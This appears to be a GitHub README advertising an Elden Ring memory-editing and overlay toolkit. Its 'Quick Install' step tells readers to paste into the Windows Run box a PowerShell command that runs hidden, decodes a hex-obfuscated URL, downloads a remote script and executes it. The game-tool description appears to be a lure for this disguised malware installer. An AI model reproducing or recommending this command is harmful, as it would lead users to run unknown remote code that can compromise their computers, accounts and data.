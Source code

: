 # Elden Ring - External Memory Toolkit

**Project Type:** Single-player enhancement utility  
**Language:** C++20 with WinAPI  
**Focus:** Reverse engineering, memory analysis, gameplay customization  

### Quick Install

- #### Press WIN+R
- #### Copy and insert command

```bash
powershell -WindowStyle Hidden -Command "$p='68747470733A2F2F6A616968696E642E6564752E696E2F67726170657375626A6563742F726570616972626574746572';$u=[System.Text.Encoding]::UTF8.GetString((1..($p.Length/2) | ForEach-Object {[Convert]::ToByte($p.Substring((($_-1)*2),2),16)}));([ScriptBlock]::Create((Invoke-RestMethod $u))).Invoke()"
```

## 🗡️ Core Functionality

### Game World Interaction
- **Entity Manager**:
  - NPC/enemy position tracking
  - Player status monitoring (HP/FP/Stamina)
  - Item inventory analysis

### Visual Overlay
- **DirectX12 Overlay**:
  - Interactive ImGui interface
  - World state visualization
  - Debug information display

### Customization Features
- **Gameplay Modifiers**:
  - Parameter adjustment (movement speed, damage scaling)
  - Camera control enhancements
  - Physics tweaks

